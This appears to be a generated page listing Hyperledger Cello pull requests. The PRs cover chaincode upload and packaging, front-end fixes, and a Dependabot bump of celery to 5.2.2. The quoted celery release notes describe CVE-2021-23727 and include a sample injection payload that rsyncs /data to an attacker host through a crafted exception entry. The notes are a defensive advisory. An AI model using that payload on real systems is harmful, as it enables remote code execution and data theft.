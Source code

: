 ```yaml
---
layout: default
title: cello
parent: Hyperledger
grand_parent: Pull Requests
has_children: false
permalink: /pull-requests/hyperledger/cello
---
```


# cello <span class="fs-3 right-align">[GitHub](https://github.com/hyperledger/cello){: .btn .mr-4 }</span>


<div>
    <table>
        <tr>
            <td>
                PR <a href="https://github.com/hyperledger/cello/pull/380" class=".btn">#380</a>
            </td>
            <td>
                <b>
                    [#issue-379] realize the chain code package function
                </b>
            </td>
        </tr>
        <tr>
            <td>
                
            </td>
            <td>
                Realize the chain code package function. In the post request, you need to carry the zip package and MD5 value. After decompressing it to the specified path, call the peer binary tool to perform the package operation

Close #379

Signed-off-by: tianxuanhong1 <523713078@qq.com>
            </td>
        </tr>
    </table>
    <div class="right-align">
        Created At 2022-01-11 11:57:17 +0000 UTC
    </div>
</div>

<div>
    <table>
        <tr>
            <td>
                PR <a href="https://github.com/hyperledger/cello/pull/378" class=".btn">#378</a>
            </td>
            <td>
                <b>
                    [#issue-374]network create failed: The front-end parameters are incon…
                </b>
            </td>
        </tr>
        <tr>
            <td>
                
            </td>
            <td>
                …sistent with the back-end parameters

front parames: consensus, db,name,type,version
but backend needs: name, consensus,database
Close #374 
Signed-off-by: fengyang_sy <fengyang.09186@h3c.com>
            </td>
        </tr>
    </table>
    <div class="right-align">
        Created At 2022-01-11 02:14:00 +0000 UTC
    </div>
</div>

<div>
    <table>
        <tr>
            <td>
                PR <a href="https://github.com/hyperledger/cello/pull/375" class=".btn">#375</a>
            </td>
            <td>
                <b>
                    [#issue-373]Modify front-end channel module
                </b>
            </td>
        </tr>
        <tr>
            <td>
                
            </td>
            <td>
                1.Modify front end channel list page

2.Modify the response judgment to create channel request

Close #373 

Signed-off-by: fengyang_sy fengyang.09186@h3c.com
            </td>
        </tr>
    </table>
    <div class="right-align">
        Created At 2022-01-08 08:40:59 +0000 UTC
    </div>
</div>

<div>
    <table>
        <tr>
            <td>
                PR <a href="https://github.com/hyperledger/cello/pull/371" class=".btn">#371</a>
            </td>
            <td>
                <b>
                    [#issue-370]Modify front-end login module
                </b>
            </td>
        </tr>
        <tr>
            <td>
                
            </td>
            <td>
                Modify the front-end code according to the response information of the new login interface and the verification token interface

Close #370 

Signed-off-by: fengyang_sy <fengyang.09186@h3c.com>

            </td>
        </tr>
    </table>
    <div class="right-align">
        Created At 2022-01-08 08:19:01 +0000 UTC
    </div>
</div>

<div>
    <table>
        <tr>
            <td>
                PR <a href="https://github.com/hyperledger/cello/pull/369" class=".btn">#369</a>
            </td>
            <td>
                <b>
                    [#issue-368] chaincode files upload
                </b>
            </td>
        </tr>
        <tr>
            <td>
                
            </td>
            <td>
                The interface of chain code upload is added. Temporarily save the chain code in the / opt / chaincode / {MD5} directory. In the future, consider making the package function in an interface?

and modified dashboard dockerfile of base image node version from 14.2.0 to 14.13.1 , to resolve the dashboard build error: 
error strip-css-comments@5.0.0: The engine "node" is incompatible with this module. Expected version "^12.20.0 || ^14.13.1 || >=16.0.0". Got "14.2.0"
error Found incompatible module.


Close #368

Signed-off-by: tianxuanhong1 <523713078@qq.com>
            </td>
        </tr>
    </table>
    <div class="right-align">
        Created At 2022-01-08 00:55:07 +0000 UTC
    </div>
</div>

<div>
    <table>
        <tr>
            <td>
                PR <a href="https://github.com/hyperledger/cello/pull/367" class=".btn">#367</a>
            </td>
            <td>
                <b>
                    Bump celery from 4.2.1 to 5.2.2 in /src/api-engine
                </b>
            </td>
        </tr>
        <tr>
            <td>
                <span class="chip">Dependencies</span><span class="chip">python</span>
            </td>
            <td>
                Bumps [celery](https://github.com/celery/celery) from 4.2.1 to 5.2.2.
<details>
<summary>Release notes</summary>
<p><em>Sourced from <a href="https://github.com/celery/celery/releases">celery's releases</a>.</em></p>
<blockquote>
<h2>5.2.2</h2>
<p>Release date: 2021-12-26 16:30 P.M UTC+2:00</p>
<p>Release by: Omer Katz</p>
<ul>
<li>
<p>Various documentation fixes.</p>
</li>
<li>
<p>Fix CVE-2021-23727 (Stored Command Injection security
vulnerability).</p>
<blockquote>
<p>When a task fails, the failure information is serialized in the
backend. In some cases, the exception class is only importable
from the consumer's code base. In this case, we reconstruct the
exception class so that we can re-raise the error on the process
which queried the task's result. This was introduced in <a href="https://github-redirect.dependabot.com/celery/celery/issues/4836">#4836</a>. If
the recreated exception type isn't an exception, this is a
security issue. Without the condition included in this patch, an
attacker could inject a remote code execution instruction such as:
<code>os.system(&quot;rsync /data attacker@192.168.56.100:~/data&quot;)</code> by
setting the task's result to a failure in the result backend with
the os, the system function as the exception type and the payload
<code>rsync /data attacker@192.168.56.100:~/data</code> as the exception
arguments like so:</p>
<pre lang="python"><code>{
      &quot;exc_module&quot;: &quot;os&quot;,
      'exc_type': &quot;system&quot;,
      &quot;exc_message&quot;: &quot;rsync /data attacker@192.168.56.100:~/data&quot;
}
</code></pre>
<p>According to my analysis, this vulnerability can only be exploited
if the producer delayed a task which runs long enough for the
attacker to change the result mid-flight, and the producer has
polled for the task's result. The attacker would also have to
gain access to the result backend. The severity of this security
vulnerability is low, but we still recommend upgrading.</p>
</blockquote>
</li>
</ul>
<h2>v5.2.1</h2>
<p>Release date: 2021-11-16 8.55 P.M UTC+6:00</p>
<p>Release by: Asif Saif Uddin</p>
<ul>
<li>Fix rstrip usage on bytes instance in ProxyLogger.</li>
<li>Pass logfile to ExecStop in celery.service example systemd file.</li>
<li>fix: reduce latency of AsyncResult.get under gevent (<a href="https://github-redirect.dependabot.com/celery/celery/issues/7052">#7052</a>)</li>
<li>Limit redis version: &lt;4.0.0.</li>
<li>Bump min kombu version to 5.2.2.</li>
<li>Change pytz&gt;dev to a PEP 440 compliant pytz&gt;0.dev.0.</li>
</ul>
<!-- raw HTML omitted -->
</blockquote>
<p>... (truncated)</p>
</details>
<details>
<summary>Changelog</summary>
<p><em>Sourced from <a href="https://github.com/celery/celery/blob/master/Changelog.rst">celery's changelog</a>.</em></p>
<blockquote>
<h1>5.2.2</h1>
<p>:release-date: 2021-12-26 16:30 P.M UTC+2:00
:release-by: Omer Katz</p>
<ul>
<li>
<p>Various documentation fixes.</p>
</li>
<li>
<p>Fix CVE-2021-23727 (Stored Command Injection security vulnerability).</p>
<p>When a task fails, the failure information is serialized in the backend.
In some cases, the exception class is only importable from the
consumer's code base. In this case, we reconstruct the exception class
so that we can re-raise the error on the process which queried the
task's result. This was introduced in <a href="https://github-redirect.dependabot.com/celery/celery/issues/4836">#4836</a>.
If the recreated exception type isn't an exception, this is a security issue.
Without the condition included in this patch, an attacker could inject a remote code execution instruction such as:
<code>os.system(&quot;rsync /data attacker@192.168.56.100:~/data&quot;)</code>
by setting the task's result to a failure in the result backend with the os,
the system function as the exception type and the payload <code>rsync /data attacker@192.168.56.100:~/data</code> as the exception arguments like so:</p>
<p>.. code-block:: python</p>
<pre><code>  {
        &quot;exc_module&quot;: &quot;os&quot;,
        'exc_type': &quot;system&quot;,
        &quot;exc_message&quot;: &quot;rsync /data attacker@192.168.56.100:~/data&quot;
  }
</code></pre>
<p>According to my analysis, this vulnerability can only be exploited if
the producer delayed a task which runs long enough for the
attacker to change the result mid-flight, and the producer has
polled for the task's result.
The attacker would also have to gain access to the result backend.
The severity of this security vulnerability is low, but we still
recommend upgrading.</p>
</li>
</ul>
<p>.. _version-5.2.1:</p>
<h1>5.2.1</h1>
<p>:release-date: 2021-11-16 8.55 P.M UTC+6:00
:release-by: Asif Saif Uddin</p>
<ul>
<li>Fix rstrip usage on bytes instance in ProxyLogger.</li>
<li>Pass logfile to ExecStop in celery.service example systemd file.</li>
<li>fix: reduce latency of AsyncResult.get under gevent (<a href="https://github-redirect.dependabot.com/celery/celery/issues/7052">#7052</a>)</li>
<li>Limit redis version: &lt;4.0.0.</li>
<li>Bump min kombu version to 5.2.2.</li>
</ul>
<!-- raw HTML omitted -->
</blockquote>
<p>... (truncated)</p>
</details>
<details>
<summary>Commits</summary>
<ul>
<li><a href="https://github.com/celery/celery/commit/b21c13d234dd6d6c197436374ab1bb5db4be62c7"><code>b21c13d</code></a> Bump version: 5.2.1 → 5.2.2</li>
<li><a href="https://github.com/celery/celery/commit/a60b4867f4bd4efa4b5a2834fcf3f757740b1b8f"><code>a60b486</code></a> Add changelog for 5.2.2.</li>
<li><a href="https://github.com/celery/celery/commit/3e5d630f478518eb775c05ba87b29024400fbe68"><code>3e5d630</code></a> Fix changelog formatting.</li>
<li><a href="https://github.com/celery/celery/commit/1f7ad7e6df1e02039b6ab9eec617d283598cad6b"><code>1f7ad7e</code></a> Fix CVE-2021-23727 (Stored Command Injection securtiy vulnerability).</li>
<li><a href="https://github.com/celery/celery/commit/2d8dbc2a8087bbb60590465031ebd5138b8eb359"><code>2d8dbc2</code></a> Update configuration.rst</li>
<li><a href="https://github.com/celery/celery/commit/9596abad9060323d85d3945d8637b3cafadfefa2"><code>9596aba</code></a> Fix typo in documentation</li>
<li><a href="https://github.com/celery/celery/commit/639ad83239a1f9cfc58ee9852a1f107f96d3c1a1"><code>639ad83</code></a> update doc to reflect Celery 5.2.x (<a href="https://github-redirect.dependabot.com/celery/celery/issues/7153">#7153</a>)</li>
<li><a href="https://github.com/celery/celery/commit/d32356c0e46eefecd164c55899f532c2fed2df57"><code>d32356c</code></a> Bump version: 5.2.0 → 5.2.1</li>
<li><a href="https://github.com/celery/celery/commit/6842a786eeeb2d0f1fcd66408b72924b39e07836"><code>6842a78</code></a> Merge branch 'master' of <a href="https://github.com/celery/celery">https://github.com/celery/celery</a></li>
<li><a href="https://github.com/celery/celery/commit/4c92cb745f658382a4eb4b94ba7938d119168165"><code>4c92cb7</code></a> changelog for v5.2.1</li>
<li>Additional commits viewable in <a href="https://github.com/celery/celery/compare/v4.2.1...v5.2.2">compare view</a></li>
</ul>
</details>
<br />


[![Dependabot compatibility score](https://dependabot-badges.githubapp.com/badges/compatibility_score?dependency-name=celery&package-manager=pip&previous-version=4.2.1&new-version=5.2.2)](https://docs.github.com/en/github/managing-security-vulnerabilities/about-dependabot-security-updates#about-compatibility-scores)

Dependabot will resolve any conflicts with this PR as long as you don't alter it yourself. You can also trigger a rebase manually by commenting `@dependabot rebase`.

[//]: # (dependabot-automerge-start)
[//]: # (dependabot-automerge-end)

---

<details>
<summary>Dependabot commands and options</summary>
<br />

You can trigger Dependabot actions by commenting on this PR:
- `@dependabot rebase` will rebase this PR
- `@dependabot recreate` will recreate this PR, overwriting any edits that have been made to it
- `@dependabot merge` will merge this PR after your CI passes on it
- `@dependabot squash and merge` will squash and merge this PR after your CI passes on it
- `@dependabot cancel merge` will cancel a previously requested merge and block automerging
- `@dependabot reopen` will reopen this PR if it is closed
- `@dependabot close` will close this PR and stop Dependabot recreating it. You can achieve the same result by closing it manually
- `@dependabot ignore this major version` will close this PR and stop Dependabot creating any more for this major version (unless you reopen the PR or upgrade to it yourself)
- `@dependabot ignore this minor version` will close this PR and stop Dependabot creating any more for this minor version (unless you reopen the PR or upgrade to it yourself)
- `@dependabot ignore this dependency` will close this PR and stop Dependabot creating any more for this dependency (unless you reopen the PR or upgrade to it yourself)
- `@dependabot use these labels` will set the current labels as the default for future PRs for this repo and language
- `@dependabot use these reviewers` will set the current reviewers as the default for future PRs for this repo and language
- `@dependabot use these assignees` will set the current assignees as the default for future PRs for this repo and language
- `@dependabot use this milestone` will set the current milestone as the default for future PRs for this repo and language

You can disable automated security fix PRs for this repo from the [Security Alerts page](https://github.com/hyperledger/cello/network/alerts).

</details>
            </td>
        </tr>
    </table>
    <div class="right-align">
        Created At 2022-01-06 22:30:19 +0000 UTC
    </div>
</div>

